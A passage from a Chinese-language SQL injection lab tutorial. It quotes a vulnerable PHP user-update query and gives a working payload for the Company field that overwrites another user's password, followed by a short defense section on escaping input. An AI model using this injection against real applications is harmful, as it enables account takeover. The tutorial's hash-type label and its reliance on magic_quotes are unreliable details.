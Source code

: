 ```
                                adress='$address1', adress2='$address2',
                                state='$state', country='$country',
                                tags='$tags', locale='$locale',
                                avatar='$avatar', rate='$rate' WHERE ID = $id");
        }
    else
        {
            // same query as above minus setting avatar; removed for
            // brevity
        }
    if ($upd)
        {
            $this->mylog->add($name, 'user', 2, 0);
            return true;
        }
    else
        {
            return false;
        }
	}
```

我们会发现​sql语句为：`SELECT ID WHERE name=​'$user'`,并且`company`的位置是存在注入漏洞，原理同lab1。

这样我们就可以越权来修改其他用户的信息及密码；我们使用任意用户，如： bob bob 进行登录；

在编辑用户的位置：user 填 ted 用户；
Company 处填：

```
     ', `pass` = '9d4e1e23bd5b727046a9e3b4b7db57bd8d6ee684' WHERE ID = 4 # '
	注：这里的 9d4e1e23bd5b727046a9e3b4b7db57bd8d6ee684 就是pass的md5值；
```

![3.2-1](https://dn-anything-about-doc.qbox.me/userid9094labid912time1429497692793?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

点击修改，然后我们退出当前用户，使用ted用户登录，这个时候ted用户的密码应该是pass；

![3.2-2](https://dn-anything-about-doc.qbox.me/userid9094labid912time1429497732589?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

![3.2-3](https://dn-anything-about-doc.qbox.me/userid9094labid912time1429497752475?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

### 3、防御策略 

SQL注入漏洞的根本问题是数据与代码的分离失败，因此我们可以针对这个原因进行防御

#### 防御策略1 

防御转义特殊字符使用，默认开启magic_quotes_gpc，将magic_quotes_gpc值设为On。

```
    sudo vim /etc/php5/apache2/php.ini
	sudo service apache2 restart
```
